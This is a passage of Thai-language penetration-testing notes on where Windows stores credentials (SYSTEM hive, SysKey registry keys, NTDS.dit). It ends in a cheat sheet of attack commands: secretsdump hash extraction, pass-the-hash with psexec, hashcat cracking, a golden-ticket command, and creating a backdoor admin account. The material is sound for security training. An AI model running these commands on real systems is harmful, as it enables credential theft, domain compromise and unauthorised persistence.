C:\Windows\System32\config\SYSTEM
```

### ข้อมูลที่เก็บ

#### 1. Boot Key (SysKey)
```bash
# Key ที่ใช้เข้ารหัส SAM database
# อยู่ใน 4 registry keys:
SYSTEM\CurrentControlSet\Control\Lsa\JD
SYSTEM\CurrentControlSet\Control\Lsa\Skew1  
SYSTEM\CurrentControlSet\Control\Lsa\GBG
SYSTEM\CurrentControlSet\Control\Lsa\Data
```

#### 2. Machine Configuration
- **Computer name**
- **Domain membership**
- **Service configurations**
- **Driver information**
- **Hardware information**

#### 3. LSA Authentication
- **Authentication packages**
- **Security providers**
- **Logon session information**

---

## NTDS.dit (NT Directory Services)

### คืออะไร
**NTDS.dit** เป็นฐานข้อมูลหลักของ **Active Directory** ที่เก็บข้อมูลทั้ง domain

### ตำแหน่ง
```bash
# Default location
C:\Windows\NTDS\ntds.dit

# Registry location
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters
```

### ข้อมูลที่เก็บ

#### 1. Domain User Accounts
```bash
# ทุก domain users
DOMAIN\Administrator:500:hash1:hash2:::
DOMAIN\krbtgt:502:hash1:hash2:::
DOMAIN\john.doe:1104:hash1:hash2:::
DOMAIN\jane.smith:1105:hash1:hash2:::
```

#### 2. Computer Accounts
```bash
# Domain computers
DOMAIN\WORKSTATION1$:1001:hash1:hash2:::
DOMAIN\SERVER1$:1002:hash1:hash2:::
```

#### 3. Group Information
- **Domain groups** (Domain Admins, Enterprise Admins)
- **Group memberships**
- **Nested groups**

#### 4. Domain Policies
- **Password policies**
- **Account lockout policies**
- **Kerberos policies**

#### 5. Trust Relationships
- **Domain trusts**
- **Forest trusts**
- **External trusts**

---

## การใช้งานใน Penetration Testing

### 1. Local Privilege Escalation
```bash
# ดึง local admin hash
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL

# ใช้ hash ที่ได้
impacket-psexec -hashes :hash Administrator@target
```

### 2. Lateral Movement
```bash
# ใช้ cached credentials
hashcat -m 2100 cached_creds.txt wordlist.txt

# ใช้ LSA secrets
impacket-wmiexec 'DOMAIN/service_account:password@target'
```

### 3. Domain Compromise
```bash
# ดึงทุก domain accounts
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL

# Golden ticket attack
impacket-ticketer -nthash <krbtgt_hash> -domain domain.com Administrator
```

### 4. Persistence
```bash
# ใช้ machine account hash
impacket-psexec -hashes :machine_hash 'DOMAIN/MACHINE$@target'

# Create new admin user
net user hacker P@ssw0rd /add
net localgroup administrators hacker /add
```

---


ไฟล์เหล่านี้เป็น **หัวใจของความปลอดภัย Windows** - ถ้าผู้โจมตีเข้าถึงได้ = ได้ข้อมูล credentials ทั้งหมดของระบบ!
